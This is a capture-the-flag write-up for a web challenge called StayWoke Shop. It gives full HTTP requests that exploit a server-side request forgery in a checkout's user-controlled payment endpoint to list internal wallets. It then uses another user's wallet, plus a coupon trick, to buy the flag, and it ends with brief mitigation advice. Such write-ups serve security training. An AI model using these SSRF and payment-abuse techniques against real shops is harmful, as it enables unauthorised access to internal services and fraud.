

# StayWoke Shop

## Solution

If we visit the listed products, we can see that the first product has the url `http://staywoke.hax1.allesctf.net/products/2`, the next `.../3` and so on.
Looks like product number `1` isn't listed on the page, let's see what happens if we visit `http://staywoke.hax1.allesctf.net/products/1`:


We can now put the flag into the shopping cart, however we do not have enough money to buy it. The POST request to `/checkout` looks interesting though:

```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090
```

`paymentEndpoint` may be vulnerable to SSRF. Appending an extra `/` at the end of the value of the `paymentEndpoint` parameter:

Request:
```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090/
```

Response:
```html
...
        <div class="alert bad">Error from Payment API: &quot;Cannot GET //wallets/abc/balance\n\nTry GETting /help for possible endpoints.&quot;</div>
...
```

Looks like the server requests `<paymentEndpoint>/wallets/<account>/balance`. The error tells us to visit `/help` for possible endpoints, we can do that
by adding a `?` at the end of `paymentEndpoint`, so the part coming afterwards will be ignored / not interpreted as a domain path.

Request:
```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090/help?
```

Response:
```html
...
        <div class="alert bad">Error from Payment API: {&quot;endpoints&quot;:[{&quot;method&quot;:&quot;GET&quot;,&quot;path&quot;:&quot;/wallets/:id/balance&quot;,&quot;description&quot;:&quot;check wallet balance&quot;},{&quot;method&quot;:&quot;GET&quot;,&quot;path&quot;:&quot;/wallets&quot;,&quot;description&quot;:&quot;list all wallets&quot;},{&quot;method&quot;:&quot;GET&quot;,&quot;path&quot;:&quot;/help&quot;,&quot;description&quot;:&quot;this help message&quot;}]}</div>
...
```

So we got a list of possible endpoints:
```
/wallets/:id/balance
/wallets
/help
```

If we visit `/wallets` we get a list of all the current wallets.

Request:
```http
POST /checkout HTTP/1.1
Host: staywoke.hax1.allesctf.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://staywoke.hax1.allesctf.net
DNT: 1
Connection: close
Referer: http://staywoke.hax1.allesctf.net/checkout
Cookie: __cfduid=d049cf17cd52255c949dc0649b2cf8e2b1589517494; session=s%3AmcZ3RBWJSWro7pqsoj4nXsFcAj-TYujh.IAIaG66Ml8H6o0D2jR2MKJrgzT34ejqTS9oSn2ktzU4
Upgrade-Insecure-Requests: 1

payment=w0kecoin&account=abc&paymentEndpoint=http%3A%2F%2Fpayment-api%3A9090/wallets?
```

Response:
```html
...
        <div class="alert bad">Error from Payment API: [{&quot;account&quot;:&quot;1337-420-69-93dcbbcd&quot;,&quot;balance&quot;:133500}]</div>
...
```

If we try to use that wallet now, it tells us that wallet balance is too low, so perhaps the balance is in cent. I remembered that there was the coupon field and it took me some time
to find the coupon code in `http://staywoke.hax1.allesctf.net/api/news`:
```json
["neue Chemtrails gesichtet","COVID-19 ist erfunden von denen da oben","20% Rabatt mit dem Code I<3CORONA","BND betreibt neuen Honeypot \"CSCG\" um 0days abzugreifen","SARS-CoV-2 war ein Insiderjob"]
```

Unfortunately, we can't use the coupon code on the flag. Nevertheless, we can add an item for 1€ 10 times use the coupon on them to get a discount of 2€, remove all the 1€ items, add the flag and get a total price of 1335€ that is
exactly equal to the wallet balance of `1337-420-69-93dcbbcd`:




## Mitigation

I have no idea why one would ever let the user control the `paymentEndpoint` parameter, but I guess just verify that it is equal to `http://payment-api:9090`. For the `account` parameter, special characters like `?, #, /, \, %, @, ...` should be filtered.
